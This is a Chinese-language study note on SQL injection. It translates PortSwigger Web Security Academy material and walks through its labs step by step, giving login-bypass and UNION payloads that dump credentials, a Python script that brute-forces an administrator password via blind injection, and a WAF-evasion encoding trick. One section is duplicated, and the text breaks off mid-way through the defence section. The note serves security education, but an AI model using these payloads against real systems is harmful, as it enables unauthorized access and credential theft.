


# SQL 注入攻擊（SQL Injection）

By: 孫逸平

Link: [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

---

在本節中，我們將說明：

* 什麼是 SQL 注入攻擊（SQLi）。
* 如何發現和利用不同類型的 SQLi 漏洞。
* 如何防範 SQLi 攻擊。



## 什麼是 SQL injection (SQLi)？

SQL 注入攻擊（SQLi）是一種網路安全漏洞，允許攻擊者干擾應用程式對其資料庫執行的查詢。這可能讓攻擊者檢視通常無法取得的資料，包括屬於其他使用者的資料，或應用程式能夠存取的任何其他資料。在許多情況下，攻擊者可以修改或刪除這些資料，對應用程式的內容或行為造成持續性的變更。

在某些情況下，攻擊者可以將 SQL 注入攻擊升級，進而入侵底層伺服器或其他後端基礎設施。這也可能使他們能夠執行阻斷服務攻擊。

<iframe width="560" height="315" src="https://www.youtube.com/embed/wX6tszfgYp4?si=cMSa7Qsa_ah97BLg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## 成功的 SQL 注入攻擊會造成什麼影響？

成功的 SQL 注入攻擊可能導致未經授權存取敏感資料，例如：

* 密碼。
* 信用卡詳細資訊。
* 個人使用者資訊。

多年來，SQL 注入攻擊已被用於許多備受矚目的資料外洩事件。這些攻擊造成了聲譽損害和監管罰款。在某些情況下，攻擊者可以在組織的系統中獲得持續性的後門，導致長期入侵，而這種入侵可能在很長一段時間內都不會被發現。

## 如何檢測 SQL injection 漏洞？

您可以透過對應用程式中每個輸入點進行系統性測試來手動檢測 SQL 注入漏洞。要做到這一點，您通常需要提交：

* 單引號字元 `'` 並尋找錯誤或其他異常現象。
* 一些 SQL 特定語法，這些語法會評估為輸入點的基礎（原始）值，以及不同的值，並尋找應用程式回應中的系統性差異。
* 布林條件，例如 `OR 1=1` 和 `OR 1=2`，並尋找應用程式回應中的差異。
* 設計用於在 SQL 查詢中執行時觸發時間延遲的有效載荷，並尋找回應時間的差異。
* OAST 有效載荷，設計用於在 SQL 查詢中執行時觸發帶外網路互動，並監控任何產生的互動。

或者，您可以使用 Burp Scanner 快速且可靠地找到大部分的 SQL 注入漏洞。

## 查詢語句不同部分中的 SQL 注入

大多數 SQL 注入漏洞發生在 `SELECT` 查詢語句的 `WHERE` 子句中。大多數有經驗的測試人員都熟悉這種類型的 SQL 注入。

然而，SQL 注入漏洞可能出現在查詢語句的任何位置，以及不同類型的查詢語句中。SQL 注入出現的其他一些常見位置包括：

* 在 `UPDATE` 語句中，位於更新值或 `WHERE` 子句內。
* 在 `INSERT` 語句中，位於插入值內。
* 在 `SELECT` 語句中，位於資料表或欄位名稱內。
* 在 `SELECT` 語句中，位於 `ORDER BY` 子句內。

## SQL 注入範例

有許多 SQL 注入漏洞、攻擊和技術會在不同情況下發生。一些常見的 SQL 注入範例包括：

* 擷取隱藏資料，您可以修改 SQL 查詢語句以返回額外的結果。
* 破壞應用程式邏輯，您可以變更查詢語句來干擾應用程式的邏輯。
* UNION 攻擊，您可以從不同的資料庫資料表中擷取資料。
* 盲注 SQL 注入，您所控制的查詢語句結果不會在應用程式的回應中返回。

## 擷取隱藏資料

想像一個購物應用程式，它會在不同類別中顯示產品。當使用者點擊**禮品**類別時，他們的瀏覽器會請求以下 URL：
`https://insecure-website.com/products?category=Gifts`

這會導致應用程式執行 SQL 查詢語句，從資料庫中擷取相關產品的詳細資訊：
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

這個 SQL 查詢語句要求資料庫返回：

* 所有詳細資訊（`*`）
* 從 `products` 資料表
* 其中 `category` 為 `Gifts`
* 且 `released` 為 `1`。

限制條件 `released = 1` 被用來隱藏尚未發布的產品。我們可以假設對於未發布的產品，`released = 0`。

該應用程式沒有實作任何針對 SQL 注入攻擊的防護措施。這意味著攻擊者可以構造以下攻擊，例如：
`https://insecure-website.com/products?category=Gifts'--`

這會產生以下 SQL 查詢語句：
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

重要的是，請注意 `--` 是 SQL 中的註解指示符。這意味著查詢語句的其餘部分會被解釋為註解，有效地將其移除。在這個範例中，這意味著查詢語句不再包含 `AND released = 1`。因此，所有產品都會被顯示，包括那些尚未發布的產品。

您可以使用類似的攻擊來使應用程式顯示任何類別中的所有產品，包括他們不知道的類別：
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

這會產生以下 SQL 查詢語句：
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

修改後的查詢語句會返回所有 `category` 為 `Gifts` 或 `1` 等於 `1` 的項目。由於 `1=1` 永遠為真，查詢語句會返回所有項目。

> [!warning]
> 在 SQL 查詢語句中注入條件 `OR 1=1` 時請小心。即使在您注入的語境中看起來無害，應用程式通常會在多個不同的查詢語句中使用來自單一請求的資料。例如，如果您的條件到達 `UPDATE` 或 `DELETE` 語句，可能會導致意外的資料遺失。

* [**Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
  1. 點擊 Gift 選項，觀察網址後方為：`?category=Gifts`。
  2. 為了符合題意：「取得所有未發布的品項」，可以將網址 `category=Gifts%27%20OR%201=1%20--`，通常瀏覽器會自動做 URL 編碼，所以改成 `category=Gifts' OR 1=1 --` 也可以。
  3. 修改完並重新整理後，就過關了！

## 破壞應用程式邏輯

想像一個允許使用者使用帳號和密碼登入的應用程式。如果使用者提交帳號 `wiener` 和密碼 `bluecheese`，應用程式會執行以下 SQL 查詢語句來檢查憑證：
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

如果查詢語句返回使用者的詳細資訊，則登入成功。否則，登入會被拒絕。

在這種情況下，攻擊者可以在不需要密碼的情況下以任何使用者身分登入。他們可以使用 SQL 註解序列 `--` 從查詢語句的 `WHERE` 子句中移除密碼檢查來達成這個目的。例如，提交帳號 `administrator'--` 和空白密碼會產生以下查詢語句：
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

這個查詢語句會返回 `username` 為 `administrator` 的使用者，並成功讓攻擊者以該使用者身分登入。

* [**Lab: SQL injection vulnerability allowing login bypass**](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
  1. 點擊 `My account` 進入登入畫面。
  2. 在使用者名稱欄位輸入 `administrator'--` 並點擊登入。
  3. 發現頁面要求填寫密碼欄位。
  4. 在密碼欄位隨意輸入任何值。
  5. 點擊登入，就過關了！

## 從其他資料庫資料表擷取資料

在應用程式會回應 SQL 查詢語句結果的情況下，攻擊者可以利用 SQL 注入漏洞從資料庫中的其他資料表擷取資料。您可以使用 `UNION` 關鍵字執行額外的 `SELECT` 查詢語句，並將結果附加到原始查詢語句中。

例如，如果應用程式執行以下包含使用者輸入 `Gifts` 的查詢語句：
`SELECT name, description FROM products WHERE category = 'Gifts'`

攻擊者可以提交以下輸入：
`' UNION SELECT username, password FROM users--`

這會導致應用程式返回所有使用者名稱和密碼，以及產品的名稱和描述。

### SQL 注入 UNION 攻擊

當應用程式容易受到 SQL 注入攻擊，且查詢語句的結果會在應用程式的回應中返回時，您可以使用 `UNION` 關鍵字從資料庫中的其他資料表擷取資料。這通常稱為 SQL 注入 UNION 攻擊。

`UNION` 關鍵字讓您能夠執行一個或多個額外的 `SELECT` 查詢語句，並將結果附加到原始查詢語句中。例如：
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

這個 SQL 查詢語句會返回一個包含兩個欄位的單一結果集，包含來自 `table1` 中欄位 `a` 和 `b` 的值，以及來自 `table2` 中欄位 `c` 和 `d` 的值。

要使 `UNION` 查詢語句正常運作，必須滿足兩個關鍵要求：

* 各個查詢語句必須返回相同數量的欄位。
* 各個查詢語句中每個欄位的資料類型必須相容。

要執行 SQL 注入 UNION 攻擊，請確保您的攻擊滿足這兩個要求。這通常涉及找出：

* 原始查詢語句返回多少個欄位。
* 原始查詢語句返回的哪些欄位具有適當的資料類型來容納注入查詢語句的結果。

#### 確定所需的欄位數量

當您執行 SQL 注入 UNION 攻擊時，有兩種有效的方法來確定原始查詢語句返回多少個欄位。

一種方法涉及注入一系列 `ORDER BY` 子句，並遞增指定的欄位索引直到發生錯誤。例如，如果注入點是原始查詢語句 `WHERE` 子句中的引號字串，您會提交：
`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- 等等。`

這一系列有效載荷會修改原始查詢語句，以結果集中的不同欄位來排序結果。`ORDER BY` 子句中的欄位可以透過其索引來指定，因此您不需要知道任何欄位的名稱。當指定的欄位索引超過結果集中實際欄位數量時，資料庫會返回錯誤，例如：
`The ORDER BY position number 3 is out of range of the number of items in the select list.`

應用程式可能會在其 HTTP 回應中實際返回資料庫錯誤，但也可能發出一般性錯誤回應。在其他情況下，它可能根本不返回任何結果。無論如何，只要您能檢測到回應中的某些差異，就可以推斷查詢語句返回多少個欄位。

第二種方法涉及提交一系列 `UNION SELECT` 有效載荷，指定不同數量的空值：
`' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL-- 等等。`

如果空值的數量與欄位數量不符，資料庫會返回錯誤，例如：
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

我們使用 `NULL` 作為注入的 `SELECT` 查詢語句返回的值，因為原始查詢語句和注入查詢語句中每個欄位的資料類型必須相容。`NULL` 可以轉換為每種常見的資料類型，因此它最大化了當欄位數量正確時有效載荷成功的機會。

與 `ORDER BY` 技術一樣，應用程式可能會在其 HTTP 回應中實際返回資料庫錯誤，但可能返回一般性錯誤或根本不返回任何結果。當空值數量與欄位數量相符時，資料庫會在結果集中返回額外的一行，每個欄位都包含空值。對 HTTP 回應的影響取決於應用程式的程式碼。如果您幸運的話，您會在回應中看到一些額外的內容，例如 HTML 表格中的額外行。否則，空值可能會觸發不同的錯誤，例如 `NullPointerException`。在最壞的情況下，回應可能看起來與不正確空值數量造成的回應相同。這會使此方法無效。

#### 確定所需的欄位數量

當您執行 SQL 注入 UNION 攻擊時，有兩種有效的方法來確定原始查詢語句返回多少個欄位。

一種方法涉及注入一系列 `ORDER BY` 子句，並遞增指定的欄位索引直到發生錯誤。例如，如果注入點是原始查詢語句 `WHERE` 子句中的引號字串，您會提交：

```SQL
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

這一系列有效載荷會修改原始查詢語句，以結果集中的不同欄位來排序結果。`ORDER BY` 子句中的欄位可以透過其索引來指定，因此您不需要知道任何欄位的名稱。當指定的欄位索引超過結果集中實際欄位數量時，資料庫會返回錯誤，例如：
`The ORDER BY position number 3 is out of range of the number of items in the select list.`

應用程式可能會在其 HTTP 回應中實際返回資料庫錯誤，但也可能發出一般性錯誤回應。在其他情況下，它可能根本不返回任何結果。無論如何，只要您能檢測到回應中的某些差異，就可以推斷查詢語句返回多少個欄位。

第二種方法涉及提交一系列 `UNION SELECT` 有效載荷，指定不同數量的空值：

```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

如果空值的數量與欄位數量不符，資料庫會返回錯誤，例如：
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

我們使用 `NULL` 作為注入的 `SELECT` 查詢語句返回的值，因為原始查詢語句和注入查詢語句中每個欄位的資料類型必須相容。`NULL` 可以轉換為每種常見的資料類型，因此它最大化了當欄位數量正確時有效載荷成功的機會。

與 `ORDER BY` 技術一樣，應用程式可能會在其 HTTP 回應中實際返回資料庫錯誤，但可能返回一般性錯誤或根本不返回任何結果。當空值數量與欄位數量相符時，資料庫會在結果集中返回額外的一行，每個欄位都包含空值。對 HTTP 回應的影響取決於應用程式的程式碼。如果您幸運的話，您會在回應中看到一些額外的內容，例如 HTML 表格中的額外行。否則，空值可能會觸發不同的錯誤，例如 `NullPointerException`。在最壞的情況下，回應可能看起來與不正確空值數量造成的回應相同。這會使此方法無效。

* **Lab: [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
  1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，找到有幾個欄位即可通關
  2. 任意點選一個類別發現請求 Payload 為 `/filter?category=Accessories`
  3. 嘗試判斷有幾個欄位：
      ```SQL
      /filter?category=Accessories' UNION SELECT NULL--
      /filter?category=Accessories' UNION SELECT NULL,NULL--
      /filter?category=Accessories' UNION SELECT NULL,NULL,NULL--
      ```
  4. 經過測試發現使用一個和兩個 `NULL` 均會回傳錯誤，三個的時候成功回傳內容，因此可知總共有三個欄位
  5. 過關！

#### 資料庫特定語法

在 Oracle 上，每個 `SELECT` 查詢語句都必須使用 `FROM` 關鍵字並指定一個有效的資料表。Oracle 上有一個內建資料表叫做 `dual`，可以用於此目的。所以在 Oracle 上注入的查詢語句需要看起來像：
`' UNION SELECT NULL FROM DUAL--`

前述的有效載荷使用雙破折號註解序列 `--` 來註解掉注入點後原始查詢語句的其餘部分。在 MySQL 中，雙破折號序列後必須跟一個空格。或者，可以使用井號字元 `#` 來識別註解。

有關資料庫特定語法的更多詳細資訊，請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

#### 尋找具有有用資料類型的欄位

SQL 注入 UNION 攻擊讓您能夠擷取注入查詢語句的結果。您想要擷取的有趣資料通常是字串形式。這意味著您需要在原始查詢語句結果中找到一個或多個資料類型為字串資料或與字串資料相容的欄位。

在您確定所需欄位數量後，可以探測每個欄位來測試它是否能容納字串資料。您可以提交一系列 `UNION SELECT` 有效載荷，依次將字串值放入每個欄位中。例如，如果查詢語句返回四個欄位，您會提交：

```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果欄位資料類型與字串資料不相容，注入的查詢語句會導致資料庫錯誤，例如：
`Conversion failed when converting the varchar value 'a' to data type int.`

如果沒有發生錯誤，且應用程式的回應包含一些額外內容，包括注入的字串值，那麼相關欄位就適合擷取字串資料。

* **Lab: [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**
  1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，使其回傳此 Lab 提供的隨機字串即可通關
  2. 根據上一個 Lab 得知總共有 3 個欄位，再次確認欄位數量：`/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--`
  3. 嘗試判斷哪個欄位是字串型態：
      ```SQL
      /filter?category=Lifestyle' UNION SELECT 'a',NULL,NULL--
      /filter?category=Lifestyle' UNION SELECT NULL,'a',NULL--
      /filter?category=Lifestyle' UNION SELECT NULL,NULL,'a'--
      ```
  4. 經過測試確認第二個欄位為字串型態
  5. 將隨機字串帶入後通關：`/filter?category=Lifestyle' UNION SELECT NULL,'your-random-string',NULL--`

#### 使用 SQL 注入 UNION 攻擊來擷取有趣的資料

當您確定了原始查詢語句返回的欄位數量，並找到哪些欄位可以容納字串資料時，您就可以擷取有趣的資料了。

假設：

* 原始查詢語句返回兩個欄位，兩者都可以容納字串資料。
* 注入點是 `WHERE` 子句中的引號字串。
* 資料庫包含一個名為 `users` 的資料表，其欄位為 `username` 和 `password`。

在此範例中，您可以透過提交以下輸入來擷取 `users` 資料表的內容：
`' UNION SELECT username, password FROM users--`

要執行此攻擊，您需要知道有一個名為 `users` 的資料表，其中有兩個名為 `username` 和 `password` 的欄位。如果沒有這些資訊，您就必須猜測資料表和欄位的名稱。所有現代資料庫都提供檢查資料庫結構的方式，並確定它們包含哪些資料表和欄位。

* **Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**
  1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，已知 `users` 的資料表中有兩個欄位 `username` 和 `password`，取得 `administrator` 的密碼並登入即可通關
  2. 取得 `users` 資料表中的所有帳號密碼：`/filter?category=Lifestyle' UNION SELECT username,password FROM users--`
  3. 使用 `administrator` 使用者的帳號密碼登入後通關

#### 在單一欄位中擷取多個值

在某些情況下，前面範例中的查詢語句可能只返回單一欄位。

您可以透過將值串接在一起，在這個單一欄位中一起擷取多個值。您可以包含分隔符號來讓您區分組合的值。例如，在 Oracle 上您可以提交以下輸入：
`' UNION SELECT username || '~' || password FROM users--`

這使用了雙管道序列 `||`，它是 Oracle 上的字串串接運算子。注入的查詢語句將 `username` 和 `password` 欄位的值串接在一起，並用 `~` 字元分隔。

查詢語句的結果包含所有使用者名稱和密碼，例如：

```plaintext
... 
administrator~s3cure 
wiener~peter 
carlos~montoya 
...
```

不同的資料庫使用不同的語法來執行字串串接。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

* **Lab: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**
  1. 判斷回傳的欄位數量，以及哪個欄位可回傳字串型態
      ```SQL
      /filter?category=Pets' UNION SELECT NULL--
      /filter?category=Pets' UNION SELECT NULL,NULL--
      ```

      ```SQL
      /filter?category=Pets' UNION SELECT 'a',NULL--
      /filter?category=Pets' UNION SELECT NULL,'a'--
      ```
  2. 確認為回傳 2 個欄位，且僅有第 2 個欄位可回傳字串型態
  3. 發送請求取得帳號密碼：`/filter?category=Pets' UNION SELECT NULL,username|| '~' ||password FROM users--`
  4. 使用 `administrator` 使用者的帳號密碼登入後通關

## 盲注 SQL 注入漏洞

許多 SQL 注入實例都是盲注漏洞。這意味著應用程式不會在其回應中返回 SQL 查詢語句的結果或任何資料庫錯誤的詳細資訊。盲注漏洞仍然可以被利用來存取未經授權的資料，但所涉及的技術通常更複雜且更難執行。

以下技術可以用來利用盲注 SQL 注入漏洞，具體取決於漏洞的性質和涉及的資料庫：

* 您可以改變查詢語句的邏輯，根據單一條件的真假來觸發應用程式回應中可檢測到的差異。這可能涉及在某些布林邏輯中注入新條件，或有條件地觸發錯誤，例如除零錯誤。
* 您可以有條件地在查詢語句處理中觸發時間延遲。這使您能夠根據應用程式回應所需的時間來推斷條件的真假。
* 您可以使用 OAST 技術觸發帶外網路互動。這種技術極其強大，在其他技術無效的情況下仍然有效。通常，您可以透過帶外通道直接滲透資料。例如，您可以將資料放入對您控制網域的 DNS 查詢中。

### 盲注 SQL 注入攻擊

在本節中，我們描述尋找和利用盲注 SQL 注入漏洞的技術。

#### 什麼是盲注 SQL 注入？

盲注 SQL 注入發生在應用程式容易受到 SQL 注入攻擊，但其 HTTP 回應不包含相關 SQL 查詢語句的結果或任何資料庫錯誤的詳細資訊時。

許多技術，例如 `UNION` 攻擊，對盲注 SQL 注入漏洞無效。這是因為它們依賴於能夠在應用程式的回應中看到注入查詢語句的結果。仍然可以利用盲注 SQL 注入來存取未經授權的資料，但必須使用不同的技術。

#### 透過觸發條件回應來利用盲注 SQL 注入

考慮一個使用追蹤 cookie 來收集使用情況分析的應用程式。對應用程式的請求包含像這樣的 Cookie 標頭：
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

當處理包含 `TrackingId` cookie 的請求時，應用程式使用 SQL 查詢語句來確定這是否為已知使用者：
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

此查詢語句容易受到 SQL 注入攻擊，但查詢語句的結果不會返回給使用者。然而，應用程式會根據查詢語句是否返回任何資料而表現不同。如果您提交一個被識別的 `TrackingId`，查詢語句會返回資料，您會在回應中收到「歡迎回來」訊息。

這種行為足以利用盲注 SQL 注入漏洞。您可以透過根據注入的條件有條件地觸發不同的回應來擷取資訊。

要了解此攻擊的工作原理，假設依次發送了包含以下 `TrackingId` cookie 值的兩個請求：

```SQL
…xyz' AND '1'='1 
…xyz' AND '1'='2
```

* 第一個值導致查詢語句返回結果，因為注入的 `AND '1'='1` 條件為真。因此，顯示「歡迎回來」訊息。
* 第二個值導致查詢語句不返回任何結果，因為注入的條件為假。「歡迎回來」訊息不會顯示。

這讓我們能夠確定任何單一注入條件的答案，並一次提取一部分資料。

例如，假設有一個名為 `Users` 的資料表，其欄位為 `Username` 和 `Password`，還有一個名為 `Administrator` 的使用者。您可以透過發送一系列輸入來逐個字元測試密碼，從而確定此使用者的密碼。

要做到這一點，從以下輸入開始：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

這會返回「歡迎回來」訊息，表示注入的條件為真，因此密碼的第一個字元大於 `m`。

接下來，我們發送以下輸入：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

這不會返回「歡迎回來」訊息，表示注入的條件為假，因此密碼的第一個字元不大於 `t`。

最終，我們發送以下輸入，它返回「歡迎回來」訊息，從而確認密碼的第一個字元是 `s`：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

我們可以繼續此過程，系統性地確定 `Administrator` 使用者的完整密碼。

`SUBSTRING` 函數在某些類型的資料庫中稱為 `SUBSTR`。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

* **Lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
  1. 題目敘述說明會將 Cookie 傳送到 SQL 進行查詢，且存在 SQLi 漏洞。它不會回傳 SQL 查詢結果，但如果查詢到任何一筆資料，將在頁面顯示「Welcome back」。需找到 `administrator` 使用者的密碼並登入以通關。
  2. 以下將以 `xyz` 表示 Cookie 中 `TrackingId` 的值
  3. 確認 Cookie 中 `TrackingId` 的值存在盲注 SQL 注入漏洞
      ```SQL
      xyz' AND '1'='1
      xyz' AND '1'='2
      ```
  4. 判讀 `administrator` 使用者的密碼長度
      ```SQL
      xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=3)='a
      ```
      經過多次修改長度值，得知密碼長度為 20
  5. 使用 Payload 破解密碼的第一位：`xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'm`
  6. 寫 Exploit（請自行更改 Cookie、subdomain 等值）：
      ```python=
      import requests
      import urllib3

      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

      cookies = {
          'TrackingId': "l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i",
          'session': 'JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U',
      }

      headers = {
          'Host': '0ad80007034af3b4815416d000260088.web-security-academy.net',
          'Sec-Ch-Ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
          'Sec-Ch-Ua-Mobile': '?0',
          'Sec-Ch-Ua-Platform': '"macOS"',
          'Accept-Language': 'en-US,en;q=0.9',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-User': '?1',
          'Sec-Fetch-Dest': 'document',
          'Referer': 'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter?category=Pets',
          # 'Accept-Encoding': 'gzip, deflate, br',
          'Priority': 'u=0, i',
          # 'Cookie': "TrackingId=l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i; session=JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U",
      }

      params = {
          'category': 'Pets',
      }

      payload_list = ''

      for i in range(ord('a'), ord('z') + 1):
          payload_list += chr(i)

      for i in range(ord('A'), ord('Z') + 1):
          payload_list += chr(i)

      for i in range(ord('0'), ord('9') + 1):
          payload_list += chr(i)

      ans = ''

      for i in range(1, 20 + 1):
          for j in payload_list:
              cookies['TrackingId'] = f"l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{j}"
              
              response = requests.get(
                  'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter',
                  params=params,
                  cookies=cookies,
                  headers=headers,
                  verify=False,
              )

              print(f"\rIndex = {i}, Payload = {j}   ", end='')

              if "Welcome back!" in response.text:
                  ans += j
                  print()
                  print(ans)
                  break

      print(f"Password: {ans}")
      ```
  7. 取得密碼後登入通關

## 二階 SQL 注入

一階 SQL 注入發生在應用程式處理來自 HTTP 請求的使用者輸入，並以不安全的方式將輸入併入 SQL 查詢語句中。

二階 SQL 注入發生在應用程式從 HTTP 請求中取得使用者輸入並儲存以供日後使用時。這通常是透過將輸入放入資料庫來完成，但在儲存資料的時候並不會發生漏洞。稍後，當處理不同的 HTTP 請求時，應用程式會擷取儲存的資料，並以不安全的方式將其併入 SQL 查詢語句中。因此，二階 SQL 注入也稱為儲存型 SQL 注入。



二階 SQL 注入通常發生在開發者了解 SQL 注入漏洞的情況下，因此會安全地處理輸入初次放入資料庫的過程。當資料稍後被處理時，由於之前已安全地放入資料庫，因此被認為是安全的。此時，資料會以不安全的方式處理，因為開發者錯誤地認為它是可信任的。

## 檢查資料庫

SQL 語言的一些核心功能在熱門資料庫平台上以相同方式實作，因此許多檢測和利用 SQL 注入漏洞的方法在不同類型的資料庫上運作方式相同。

然而，常見資料庫之間也存在許多差異。這意味著一些檢測和利用 SQL 注入的技術在不同平台上的運作方式會有所不同。例如：

* 字串串接的語法。
* 註解。
* 批次（或堆疊）查詢語句。
* 平台特定的 API。
* 錯誤訊息。

了解更多：[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

在您識別出 SQL 注入漏洞後，取得資料庫相關資訊通常很有用。這些資訊可以幫助您利用該漏洞。

您可以查詢資料庫的版本詳細資訊。不同的方法適用於不同的資料庫類型。這意味著如果您發現某個特定方法有效，就可以推斷出資料庫類型。例如，在 Oracle 上您可以執行：
`SELECT * FROM v$version`

您也可以識別存在哪些資料庫資料表，以及它們包含的欄位。例如，在大多數資料庫上您可以執行以下查詢語句來列出資料表：
`SELECT * FROM information_schema.tables`

了解更多：[Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)

## 不同語境中的 SQL 注入

在先前的實驗中，您使用查詢字串來注入惡意的 SQL 有效載荷。然而，您可以使用任何可控制的輸入來執行 SQL 注入攻擊，只要該輸入被應用程式作為 SQL 查詢語句處理。例如，某些網站接受 JSON 或 XML 格式的輸入，並使用它來查詢資料庫。

這些不同的格式可能為您提供不同的方式來混淆攻擊，以繞過因 WAF 和其他防禦機制而被封鎖的攻擊。弱實作通常會在請求中尋找常見的 SQL 注入關鍵字，因此您可能能夠透過對禁用關鍵字中的字元進行編碼或跳脫來繞過這些過濾器。例如，以下基於 XML 的 SQL 注入使用 XML 跳脫序列來編碼 `SELECT` 中的 `S` 字元：

```xml
<stockCheck>
  <productId>123</productId>
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

這將在傳遞給 SQL 解釋器之前在伺服器端被解碼。

## 如何防範 SQL 注入

您可以透過使用參數化查詢語句而非在查詢語句中使用字串串接來防範大多數的 SQL 注入實例。這些參數化查詢語句也稱為「預備語句」。

以下程式碼容易受到 SQL 注入攻擊，因為使用者輸入直接串接到查詢語句中：

```SQL
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

您可以重新編寫此程式碼，以防止使用者輸入干擾查詢語句結構：

```SQL
